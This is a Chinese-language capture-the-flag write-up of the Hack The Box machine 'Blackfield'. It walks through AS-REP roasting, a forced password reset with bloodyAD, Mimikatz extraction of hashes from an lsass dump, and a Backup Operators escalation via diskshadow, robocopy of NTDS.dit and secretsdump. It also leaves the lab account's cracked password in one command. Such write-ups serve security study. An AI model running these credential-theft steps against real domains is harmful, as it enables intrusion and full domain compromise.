## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali/Blackfield  
❯ nmap Blackfield.htb -sV -T4

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos 
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

把**BLACKFIELD.local**添加到**/etc/hosts**

## Control Support

可以使用**smb**匿名连接到这个目录，发现了一些类似于用户名的目录，但是里面都没东西



将用户名全部提取出来

```
[root@kali] /home/kali/Blackfield  
❯ smbclient -N //BLACKFIELD.local/profiles$ -c 'ls' | awk '{print $1}' > output.txt
```

使用**kerbrute**进行用户枚举，找到存在的用户

```
[root@kali] /home/kali/Blackfield  
❯ kerbrute userenum -d blackfield.local output.txt --dc 10.10.xx.xx -v 

-----
[+] VALID USERNAME:       audit2020@blackfield.local
[+] VALID USERNAME:       support@blackfield.local
[+] VALID USERNAME:       svc_backup@blackfield.local
```

把这三个用户名写入**usernames.txt**，测试是否开启了**Kerberos**预认证

```
[root@kali] /home/kali/Blackfield  
❯ impacket-GetNPUsers -usersfile usernames.txt -no-pass -dc-ip "10.10.xx.xx" blackfield.local/ -debug
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[+] Trying to connect to KDC at 10.10.xx.xx:88
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[+] Trying to connect to KDC at 10.10.xx.xx:88
$krb5asrep$23$support@BLACKFIELD.LOCAL:aab0bba70e20145fc4a1eadbae74caf0$bf0551ac8cdc12daeade9a8e363771a63a4daa498959f53421eec21f3bf6d656352291672d3e790142453473e47a55fee161b37c0ec8ee321303d7c6afd757f6b95d0ee87a21becbxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[+] Trying to connect to KDC at 10.10.xx.xx:88
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

使用**John the Ripper**进行破解得到密码

```
[root@kali] /home/kali/Blackfield  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxxxxxxxx  ($krb5asrep$23$support@BLACKFIELD.LOCAL)     
```

使用**support**的账户检查**SMB**权限



并没有任何泄露，**winrm**也登不上去

## Bloodhound

```
[root@kali] /home/kali/Blackfield  
❯ bloodhound-python -u support -p 'xxxxxxxxxxx' -d blackfield.local -ns 10.10.xx.xx -c All       
```

注意到**support**可以修改**audit2020**的密码



```
[root@kali] /home/kali/Blackfield  
❯ bloodyAD --host '10.10.xx.xx' -d 'blackfield.local' -u 'support' -p '#00^BlackKnight' set password 'audit2020' '123456ABC!'     ⏎
[+] Password changed successfully!
```

修改后仍然无法使用**evil-winrm**，不过可以用**audit2020**的账户登录到**SMB**的**forensic**目录



这两个文件比较可疑

**lsass.zip**:

- **LSASS (Local Security Authority Subsystem Service)** 进程负责管理 Windows 操作系统中的身份验证和安全策略。它处理用户登录、账户验证和密码验证等操作。如果攻击者能够访问 LSASS 的内存转储，通常可以提取出用户凭据（如 NTLM 哈希、Kerberos 密钥等）。

- **可能包含身份验证信息**：用户名、密码哈希、Kerberos 密钥、票证等。

**winlogon.zip**:

- **Winlogon** 进程涉及 Windows 登录过程，包括用户身份验证、登录屏幕、验证登录凭证等。它处理用户登录时的身份验证流程。

- **可能包含身份验证信息**：用户名、登录凭证。

## Mimikatz

把**lsass.zip**解压得到一个**lsass.DMP**，这个文件可以使用**mimikatz**解密

```
C:\Users\ASUS\Desktop\新建文件夹>mimikatz.exe

---
mimikatz # sekurlsa::minidump lsass.DMP
Switch to MINIDUMP : 'lsass.DMP'

mimikatz # sekurlsa::logonpasswords full
Opening : 'lsass.DMP' file for minidump...

Authentication Id : 0 ; 406458 (00000000:000633ba)
Session           : Interactive from 2
User Name         : svc_backup
Domain            : BLACKFIELD
Logon Server      : DC01
Logon Time        : 2020/2/24 2:00:03
SID               : S-1-5-21-4194615774-2175524697-3563712290-1413
        msv :
         [00000003] Primary
         * Username : svc_backup
         * Domain   : BLACKFIELD
         * NTLM     : 9658d1dXXXXXXXXXXXXXXXXXXXXXXX
         * SHA1     : 463c13a9a31fc3252c68ba0a44f0221626a33e5c
         * DPAPI    : a03cd8e9d30171f3cfe8caad92fef621
        tspkg :
        wdigest :
```

拿到了**svc\_bakcup**的**NTLM hash**，然后使用**winrm**登录拿到**user.txt**



## Privilege Escalation

在根目录下发现一个留言

```
*Evil-WinRM* PS C:\> cat notes.txt
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
```

查看**svc\_backup**的所属组情况，发现属于一个特殊组**BACKUP OPERATORS**



**whoami**查看权限



参考以下文章

- [Backup Operator Privilege Escalation < BorderGate](https://www.bordergate.co.uk/backup-operator-privilege-escalation/)

- [Domain Escalation – Backup Operator – Penetration Testing Lab](https://pentestlab.blog/2024/01/22/domain-escalation-backup-operator/)

尝试本地下载**SAM**

```
reg save hklm\sam c:\Windows\Tasks\SAM
reg save hklm\system c:\Windows\Tasks\SYSTEM
```



并不能使用这个**hash**，尝试获取到**Ntds.dit**

**Ntds.dit**包括但不限于有关域用户、组和组成员身份和凭据信息、**GPP**等信息。它包括域中所有用户的密码哈希值，为了进一步保护密码哈希值，使用存储在**SYSTEM**注册表配置单元中的密钥对这些哈希值进行加密。



可以看到这个文件被占用了无法复制

### DiskShadow

有一种方式就是给驱动器创建卷影副本，然后我们将能够将 **ntds.dit** 文件复制出来，因为它不会被正在使用。

```
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
diskshadow.exe /s c:\temp\diskshadow.txt
```

上面的命令实质上是告诉 **diskshadow.exe** 创建一个 **C**盘 的副本，将其命名为 **Z**盘 并公开它（使其作为驱动器访问）。

将**NTDS.dit**进行备份操作，并且下载下来

```
robocopy /b Z:\Windows\NTDS C:\temp NTDS.dit
download C:\temp\NTDS.dit
```

使用**secretdump**获取**hash**

```
[root@kali] /home/kali/Blackfield  
❯ impacket-secretsdump  -system system.bak -ntds ntds.dit LOCAL > results.txt 
```



拿到**Administrator**的**hash**后进行登录，拿到**root.txt**



为什么这就结束了呢？上面给的**notes.txt**里说了最后的**root.txt**是加密过的。

## Summary

`User`：**SMB**用户名泄露后进行**Kerberos**用户存在验证，通过未开启预认证的用户拿到**hash**，通过**bloodhound**进行分析可知**support**可修改**audit**的密码，**audit**的**SMB**服务里存在**LSASS**文件泄露，使用**Mimikatz**解密后拿到**user.txt**

`Root`：**svc\_backup**所属组是具有备份权限的，因为不能直接拿到系统信息文件，尝试直接将C盘进行备份处理，通过影子卷盘获取到必要的系统文件。我尝试过了`SYSTEM`、`SECURITY`、`SAM`这三个文件进行**secretdump**，不过都不能利用，经过查询得知这三个是提取本地系统上的用户账户信息（本地用户和计算机账户），而不是域账户信息。**NTDS.dit**包含整个域控制器中域用户和计算机的账户信息、组成员身份、权限等。包括域内所有用户的密码哈希。换句话说最开始的**Admin**的密码哈希并不作用于域内其他机器，因此只能通过**NTDS**来获取到域控上的**admin**。

我看有一个**Writeup**上最后是无法直接读取**root.txt**的，需要用**metasploit**连接木马后，使用**cipher**解密，似乎应该是预期的。
